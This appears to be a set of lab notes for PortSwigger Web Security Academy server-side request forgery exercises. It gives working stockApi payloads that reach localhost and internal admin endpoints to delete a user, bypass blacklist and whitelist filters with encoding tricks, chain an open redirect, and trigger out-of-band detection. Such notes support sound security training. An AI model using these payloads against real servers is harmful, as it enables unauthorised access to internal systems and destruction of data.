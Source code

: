 # Server-side request forgery (SSRF)

## Common SSRF attacks

### Basic SSRF against the local server

1) Change the URL in _Check stock_ form to http://localhost/admin
2) Modify the URL from response https://ac3e1fe81ff21a7080613ef700fe00ba.web-security-academy.net/admin/delete?username=carlos
to http://localhost/admin/delete?username=carlos and use it the same way to delete the user

### Basic SSRF against another back-end system

Use Burp Suite Intruder to scan the network
```
stockApi=http%3A%2F%2F192.168.0.§1§%3A8080%2Fadmin
```

IP `192.168.0.20` responds with 200. Use the URL from response to delete Carlos
```
stockApi=http%3A%2F%2F192.168.0.20%3A8080%2Fadmin%2Fdelete%3fusername%3dcarlos
```

## Circumventing common SSRF defenses

### SSRF with blacklist-based input filters
Change `127.0.0.1` to `127.1` and double URL encode `a` in `admin`
```
stockApi=http://127.1/%2561dmin
stockApi=http://127.1/%2561dmin/delete?username=carlos
```

### SSRF with whitelist-based input filter

Double encoded `#` in host
```
stockApi=http://localhost%2523@stock.weliketoshop.net/admin
```

### SSRF with filter bypass via open redirection vulnerability

`/product/nextProduct?path=foo` returns HTTP 302
```
stockApi=/product/nextProduct?path%3dhttp://192.168.0.12:8080/admin
stockApi=/product/nextProduct?path%3dhttp://192.168.0.12:8080/admin/delete?username%3dcarlos
```

## Blind SSRF vulnerabilities

### Blind SSRF with out-of-band detection
```
Referer: http://burpcollaborator.net
```